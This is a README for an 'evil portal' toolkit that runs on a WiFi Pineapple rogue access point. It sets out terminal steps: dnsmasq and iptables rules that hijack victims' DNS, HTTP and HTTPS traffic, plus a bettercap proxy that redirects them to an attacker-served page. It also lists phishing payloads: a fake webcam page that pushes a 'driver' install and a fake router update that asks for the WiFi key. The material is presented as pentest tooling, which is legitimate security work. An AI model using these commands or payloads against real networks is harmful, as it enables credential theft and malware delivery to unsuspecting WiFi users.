

# WIFI PINEAPPLE MARK VII - EVIL PORTAL

- The leading rogue access point and WiFi pentest toolkit for close access operations.
- Passive and active attacks analyze vulnerable and misconfigured devices.
- https://hak5.org/collections/sale/products/wifi-pineapple

> __Author__::      TW-D
>
> __Version__::     1.0.0
>
> __Copyright__::   Copyright (c) 2024 TW-D
>
> __License__::     Distributes under the same terms as Ruby
>
> __Requires__::    PHP >= 8.1, Ruby >= 2.7.0p0 and WiFi Pineapple Mark VII 2.1.3-stable
>  
>
> __Installation (Debian-Based Linux Distributions)__::
>
> * sudo apt-get install php8.1-cli php8.1-curl
>
> * sudo apt-get install build-essential ruby ruby-dev libpcap-dev
>
> * sudo gem install sorted_set bettercap

## Description

A evil portal is a technique used to deceive users of a Wi-Fi network by redirecting them to a malicious web page instead of the expected authentication or home page.

__Note :__ *"Issues" and "Pull Request" are welcome.*

## Tested On

| Operating System with/without Web Browser | Notification Type |
| --- | --- |
| Ubuntu 22.04 | None |
| Android 8.0.0 | System |
| Microsoft Windows 10 | None |
| Raspberry Pi bookworm | None |
| Ubuntu 22.04 with Mozilla Firefox | Alert |
| Microsoft Windows 10 with Mozilla Firefox | Alert |
| Raspberry Pi bookworm with Mozilla Firefox | Alert |

## Configuration

### Hacker - Connecting to the WiFi Pineapple

Connect the WiFi Pineapple to your computer via the USB-C cable.

### WiFi Pineapple - Web UI

Settings > Networking > Wireless Client Mode : The wlan2 interface must be disconnected.

### Hacker - Terminal 1

```bash
hacker@hacker-computer:~$ ifconfig enx
enx: [...]
        inet 172.16.42.100  netmask 255.255.255.0  broadcast 172.16.42.255
[...]

(optional)
hacker@hacker-computer:~$ sudo nmap -sT -sU -p 53,5353 -e enx 172.16.42.1
[...]
PORT     STATE  SERVICE
53/tcp   open   domain
5353/tcp closed mdns
53/udp   open   domain
5353/udp closed zeroconf
[...]

hacker@hacker-computer:~$ ssh root@172.16.42.1
root@mk7:~# dnsmasq --address=/#/172.16.42.1 --no-hosts --interface=br-lan --port=5353 --no-resolv
root@mk7:~# echo 1 > /proc/sys/net/ipv4/ip_forward
root@mk7:~# iptables --append PREROUTING --in-interface br-lan --proto tcp --dport 53 --jump DNAT --table nat --to-destination 172.16.42.1:5353
root@mk7:~# iptables --append PREROUTING --in-interface br-lan --proto udp --dport 53 --jump DNAT --table nat --to-destination 172.16.42.1:5353
root@mk7:~# iptables --append PREROUTING --in-interface br-lan --proto tcp --dport 80 --jump DNAT --table nat --to-destination 172.16.42.100:8080
root@mk7:~# iptables --append PREROUTING --in-interface br-lan --proto tcp --dport 443 --jump DNAT --table nat --to-destination 172.16.42.100:8000
root@mk7:~# iptables --append POSTROUTING --jump MASQUERADE --table nat
root@mk7:~# exit

(optional)
hacker@hacker-computer:~$ sudo nmap -sT -sU -p 53,5353 -e enx 172.16.42.1
[...]
PORT     STATE SERVICE
53/tcp   open  domain
5353/tcp open  mdns
53/udp   open  domain
5353/udp open  zeroconf
[...]

(optional)
hacker@hacker-computer:~$ dig @172.16.42.1 -p 53 www.google.com
[...]
;; ANSWER SECTION:
www.google.com.		0	IN	A	172.16.42.1
[...]

(optional)
hacker@hacker-computer:~$ dig @172.16.42.1 -p 5353 www.google.com
[...]
;; ANSWER SECTION:
www.google.com.		0	IN	A	172.16.42.1
[...]

hacker@hacker-computer:~$ cd ./WiFi-Pineapple-MK7_Evil-Portal/
hacker@hacker-computer:~/.../WiFi-Pineapple-MK7_Evil-Portal$ php -S 172.16.42.100:8000
```

### Hacker - Terminal 2

```bash
hacker@hacker-computer:~$ cd ./WiFi-Pineapple-MK7_Evil-Portal/
hacker@hacker-computer:~/.../WiFi-Pineapple-MK7_Evil-Portal$ sudo "${BASH}" -c "echo 0 > /proc/sys/net/ipv4/ip_forward"
hacker@hacker-computer:~/.../WiFi-Pineapple-MK7_Evil-Portal$ sudo "${BASH}" -c "echo 0 > /proc/sys/net/ipv6/conf/all/forwarding"
hacker@hacker-computer:~/.../WiFi-Pineapple-MK7_Evil-Portal$ sudo bettercap \
--interface enx \
--gateway 172.16.42.1 \
--no-discovery \
--log ./logs/bettercap.log \
--silent \
--no-spoofing \
--proxy \
--proxy-port 8080 \
--allow-local-connections \
--no-sslstrip \
--no-http-logs \
--proxy-module ./EvilPortal.rb \
--redirect-url http://172.16.42.100:8000/
```

### Hacker - Terminal 3 (Optional)

```bash
hacker@hacker-computer:~$ curl --head --interface enx "http://neverssl.com/"
HTTP/1.1 302 Found
[...]
Location: http://172.16.42.100:8000/
Cache-Control: max-age=0, private, must-revalidate

hacker@hacker-computer:~$ curl --head --insecure --interface enx "https://www.google.com/"
curl: (35) error:0A000126:SSL routines::unexpected eof while reading

hacker@hacker-computer:~$ exit
```

## Using and Loading Payloads

In *"./payloads/"* directory, you will find :

| DEVELOPMENT | Author | Description | How to use |
| --- | --- | --- | --- |
| skeleton.html | TW-D | Empty payload intended for development. | [Documentation](./payloads/development/skeleton.md) |

| EXECUTION | Author | Description | How to use |
| --- | --- | --- | --- |
| web-camera.html | TW-D | Simulates a fake surveillance video and demands the installation of a driver for its operation. | [Documentation](./payloads/execution/web-camera.md) |


| PHISHING | Author | Description | How to use |
| --- | --- | --- | --- |
| wifi_security-key.html | TW-D | Simulates a fake update of the Internet equipment and demands the WiFi security key to continue. | [Documentation](./payloads/phishing/wifi_security-key.md) |


